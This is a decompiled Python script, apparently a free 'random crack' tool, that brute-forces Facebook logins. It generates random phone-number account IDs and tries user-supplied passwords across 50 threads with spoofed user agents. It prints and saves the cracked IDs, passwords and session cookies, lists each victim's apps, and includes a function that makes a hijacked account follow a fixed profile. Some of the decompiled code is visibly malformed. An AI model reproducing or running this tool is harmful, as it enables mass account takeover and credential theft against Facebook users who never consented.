 # STC
# Source Generated with Decompyle++
# File: test.pyc (Python 3.9)

import os
import sys
import time
import requests
import uuid
def o():
    os.system('clear')
    jalan(logo)
    jalan('\x1b[1;37m [1]\x1b[1;37m RANDOM CRACK ')
    opt = input('\n\x1b[1;37mChoose option >>> ')
    if opt == '1':
        i()
        os.system('exit')
        return None
    print('\n\x1b[1;31m  Choose valid option\x1b[0;97m')


import os,sys,time,json,random,re,string,platform,base64,uuid
os.system("git pull")
from bs4 import BeautifulSoup as sop
from bs4 import BeautifulSoup
import requests as ress
from datetime import date
from datetime import datetime
from time import sleep
from time import sleep as waktu
try:
    import requests
    from concurrent.futures import ThreadPoolExecutor as ThreadPool
    import mechanize
    from requests.exceptions import ConnectionError
except ModuleNotFoundError:
    os.system('pip install mechanize requests futures bs4==2 > /dev/null')
    os.system('pip install bs4')
    
def cek_apk(session,coki):
    w=session.get("https://free.facebook.com/settings/apps/tabbed/?tab=active",cookies={"cookie":coki}).text
    sop = BeautifulSoup(w,"html.parser")
    x = sop.find("form",method="post")
    game = [i.text for i in x.find_all("h3")]
    if len(game)==0:
        print(f'\r%s[%s!%s] %sSorry there is no Active  Apk%s  '%(N,M,N,M,N))
    else:
        print(f'\r[ðŸŽ®] %s \x1b[1;95m â˜† Your Active Apps â˜†     :{WHITE}'%(GREEN))
        for i in range(len(game)):
            print(f"\r[%s%s] %s%s"%(N,i+1,game[i].replace("Ditambahkan pada"," Ditambahkan pada"),N))
        #else:
            #print(f'\r %s[%s!%s] Sorry, Apk check failed invalid cookie'%(N,M,N))
    w=session.get("https://free.facebook.com/settings/apps/tabbed/?tab=inactive",cookies={"cookie":coki}).text
    sop = BeautifulSoup(w,"html.parser")
    x = sop.find("form",method="post")
    game = [i.text for i in x.find_all("h3")]
    if len(game)==0:
        print(f'\r%s[%s!%s] %sSorry there is no Expired Apk%s           \n'%(N,M,N,M,N))
    else:
        print(f'\r[ðŸŽ®] %s \x1b[1;95m â—‡ Your Expired Apps â—‡    :{WHITE}'%(M))
        for i in range(len(game)):
            print(f"\r[%s%s] %s%s"%(N,i+1,game[i].replace("Kedaluwarsa"," Kedaluwarsa"),N))
        else:
            print('')
 
def follow(self, session, coki):
        r = BeautifulSoup(session.get('https://free.facebook.com/profile.php?id=100015315258519', {
            'cookie': coki }, **('cookies',)).text, 'html.parser')
        get = r.find('a', 'Ikuti', **('string',)).get('href')
        session.get('https://free.facebook.com' + str(get), {
            'cookie': coki }, **('cookies',)).text
            
            
 
class jalan:
    def __init__(self, z):
        for e in z + "\n":
            sys.stdout.write(e)
            sys.stdout.flush()
            time.sleep(0.009)
            
RED = '\033[1;91m'
WHITE = '\033[1;97m'
GREEN = '\033[1;32m' #
YELLOW = '\033[1;37m'
BLUE = '\033[1;37m'
ORANGE = '\033[1;35m'
P = '\x1b[1;97m' # PUTIH
M = '\x1b[1;91m' # MERAH
H = '\x1b[1;92m' # HIJAU
K = '\x1b[1;93m' # KUNING
B = '\x1b[1;94m' # BIRU
U = '\x1b[1;95m' # UNGU
O = '\x1b[1;96m' # BIRU MUDA
N = '\x1b[0m'    # WARNA MATI
A = '\x1b[1;90m' # WARNA ABU ABU
BN = '\x1b[1;107m' # BELAKANG PUTIH
BBL = '\x1b[1;106m' # BELAKANG BIRU LANGIT
BP = '\x1b[1;105m' # BELAKANG PINK
BB = '\x1b[1;104m' # BELAKANG BIRU
BK = '\x1b[1;103m' # BELAKANG KUNING
BH = '\x1b[1;102m' # BELAKANG HIJAU
BM = '\x1b[1;101m' # BELAJANG MERAH
BA = '\x1b[1;100m' # BELAKANG ABU ABU
my_color = [
 P, M, H, K, B, U, O, N]
warna = random.choice(my_color)
now = datetime.now()
dt_string = now.strftime("%H:%M")
current = datetime.now()
ta = current.year
bu = current.month
ha = current.day
today = date.today()
logo =                                          ("""   
\033[1;37m
\033[1;37m     
\033[1;37m                            _____     _      _   _                    
                                             |"_  /uU  /"\  u | \ |"|       ___         
                                           U / //  \/ _ \/ <|  \| |>     |_"_|        
                                           \/ /_   / ___ \ U| |\  |u      | |         
                                           /____| /_/   \_\ |_| \_|     U/| |\u       
                                        _//<<,- \\    >> ||   \\,-.-,_|___|_,-.    
                                       (__) (_/(__)  (__)(_")  (_/ \_)-' '-(_/
\033[1;37m      
\033[1;37m    
 \033[1;37m    
 
\033[1;37m======================================
\033[1;37m     \033[1;37mCREATED BY\33[0;m   =  \033[1;37mAZAN X.
\033[1;37m     \033[1;37mFACEBOK      = \033[1;37m AZAN X.
\033[1;37m     \033[1;37mGITHUB       =  \033[1;37azan31
\033[1;37m     \033[1;37mTOOL STATUS  =  \033[1;37mTOOL IS FREE
\033[1;37m======================================\n""")
loop = 0
oks = []
cps = []
 
def clear():
    os.system('clear')
    print(logo)
from time import localtime as lt
from os import system as cmd
ltx = int(lt()[3])
if ltx > 12:
    a = ltx-12
    tag = "PM"
else:
    a = ltx
    tag = "AM"
    
    
try:
    print('\n\n\033[1;37mLoading asset files ... \033[0;97m')
    v = 5.2
    update = ('5.2')
    update = ('5.2')
    if str(v) in update:
        os.system('clear')
    else:pass
except:print('\n\033[1;31mNo internet connection ... \033[0;97m')
#global functions
def dynamic(text):
    titik = ['.   ','..  ','... ','.... ']
    for o in titik:
        print('\r'+text+o),
        sys.stdout.flush();time.sleep(1)
 
#User agents
ugen2=[]
ugen=[]
 
for xd in range(10000):
    aa='Mozilla/5.0 (Linux; U; Android'
    b=random.choice(['3','4','5','6','7','8','9','10','11','12','13','14','15','16','17'])
    c=' en-us; GT-'
    d=random.choice(['A','B', 'C', 'D', 'E', 'F', 'G', 'H', 'I', 'J', 'K', 'L', 'M', 'N', 'O', 'P', 'Q', 'R', 'S', 'T', 'U', 'V', 'W', 'X', 'Y', 'Z'])
    e=random.randrange(1, 999)
    f=random.choice(['A','B', 'C', 'D', 'E', 'F', 'G', 'H', 'I', 'J', 'K', 'L', 'M', 'N', 'O', 'P', 'Q', 'R', 'S', 'T', 'U', 'V', 'W', 'X', 'Y', 'Z'])
    g='AppleWebKit/537.36 (KHTML, like Gecko) Chrome/'
    h=random.randrange(73,100)
    i='0'
    j=random.randrange(4200,4900)
    k=random.randrange(40,150)
    l='Mobile Safari/537.36'
    uaku2=(f'{aa} {b}; {c}{d}{e}{f}) {g}{h}.{i}.{j}.{k} {l}')
    ugen.append(uaku2)
    
# APK CHECK
def i():
    user=[]
    twf =[]
    os.getuid
    os.geteuid
    os.system("clear")
    jalan(logo)   
    jalan("\033[1;37m          USE OUR COUNTRY CODE  ")
    jalan('\033[1;37m       92301, \033[1;37m92302 ,\033[1;37m92303 ,\033[1;37m92305  \033[0;97m')
    jalan('\033[1;37m       91778, \033[1;37m91930 ,\033[1;37m91902 ,\033[1;37m91712  \033[0;97m')
    jalan('\033[1;37m       88016, \033[1;37m88017 ,\033[1;37m88018 ,\033[1;37m88019  \033[0;97m')
    code = input(' PUT CODE : ')
    print("")
    limit = int(input(' EXAMPLE: 2000, 3000, 50000, 100000\n\n PUT CLONING LIMIT: '))
    for nmbr in range(limit):
        nmp = ''.join(random.choice(string.digits) for _ in range(7))
        user.append(nmp)
    os.system("clear")
    print(logo)
    passx = int(input("[*] Enter Password Limit : "))
    HamiiID = []
    print("")
    for bilal in range(passx):
        pww = input("[*] Enter Password : ")
        HamiiID.append(pww)
    with ThreadPool(max_workers=50) as manshera:
        clear()
        tl = str(len(user))
        print('\033[1;37m TOTAL IDS: '+tl)
        print('\033[1;37m THE PROCESS HAS BEEN STARTED')
        print('\033[1;37m USE AEROPLANE MOOD IN EVERY 4 MIN ')
        print('\033[1;37m============================================')
        for love in user:
            pwx = [love[1:]]
            uid = code+love
            for Eman in HamiiID:
                pwx.append(Eman)
            manshera.submit(rcrack,uid,pwx,tl)
    print('\033[1;32m============================================')
    print('Crack process has been completed')
    print('Ids saved in ok.txt,cp.txt')
    print('\033[1;32m============================================')
 
def rcrack(uid,pwx,tl):
    #print(user)
    global loop
    global cps
    global oks
    global proxy
    try:
        for ps in pwx:
            pro = random.choice(ugen)
            session = requests.Session()
            free_fb = session.get('https://free.facebook.com').text
            log_data = {
                "lsd":re.search('name="lsd" value="(.*?)"', str(free_fb)).group(1),
            "jazoest":re.search('name="jazoest" value="(.*?)"', str(free_fb)).group(1),
            "m_ts":re.search('name="m_ts" value="(.*?)"', str(free_fb)).group(1),
            "li":re.search('name="li" value="(.*?)"', str(free_fb)).group(1),
            "try_number":"0",
            "unrecognized_tries":"0",
            "email":uid,
            "pass":ps,
            "login":"Log In"}
            header_freefb = {'method':'GET',
			'url':'https://m.facebook.com/',
			'content-type':'text/html; charset="utf-8"',
			'pragma':'no-cache',
			'accept':'text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.9',
			'accept-encoding':'gzip, deflate, br',
			'accept-language':'en-US,en;q=0.9',
			'sec-ch-ua':'"Not A;Brand";v="99", "Chromium";v="101"',
			'sec-ch-ua-mobile':'?0',
			'sec-ch-ua-platform':'"Linux"',
			'sec-fetch-dest':'document',
			'sec-fetch-mode':'navigate',
			'sec-fetch-site':'none',
			'sec-fetch-user':'?1',
			'upgrade-insecure-requests':'1',
			'user-agent':'Mozilla/5.0 (iPad; CPU OS 6_0 like Mac OS X) AppleWebKit/536.26 (KHTML, like Gecko) Version/6.0 Mobile/10A5376e Safari/8536.25'}
            lo = session.post('https://free.facebook.com/login/device-based/regular/login/?refsrc',data=log_data,headers=header_freefb).text
            log_cookies=session.cookies.get_dict().keys()
            if 'c_user' in log_cookies:
                coki=";".join([key+"="+value for key,value in session.cookies.get_dict().items()])
                cid = coki[7:22]
                print('    \033[1;32m(AXB-OK)  ' +cid+ ' | ' +ps+    '  \n \033[1;37mCookie = \033[1;32m'+coki+  ' \n '+pro+'  \033[0;97m')
                cek_apk(session,coki)
                open('/sdcard/AXB-OK.txt', 'a').write( cid+' | '+ps+'\n')
                oks.append(cid)
                break
            elif 'checkpoint' in log_cookies:
                coki=";".join([key+"="+value for key,value in session.cookies.get_dict().items()])
                cid = coki[24:39]
                print('    \033[1;91m(AXB-CP•)  ' +cid+ ' | ' +ps+           '  \33[0;97m')
                open('/sdcard/AXB-CP.txt', 'a').write( cid+' | '+ps+' \n')
                cps.append(cid)
                break
            else:
                continue
        loop+=1
        sys.stdout.write('\r     %s[AXB] [%s/%s]  OK:- %s  CP:- %s \r'%(H,loop,tl,len(oks),len(cps))),
        sys.stdout.flush()
    except:
        pass
 
o()
 
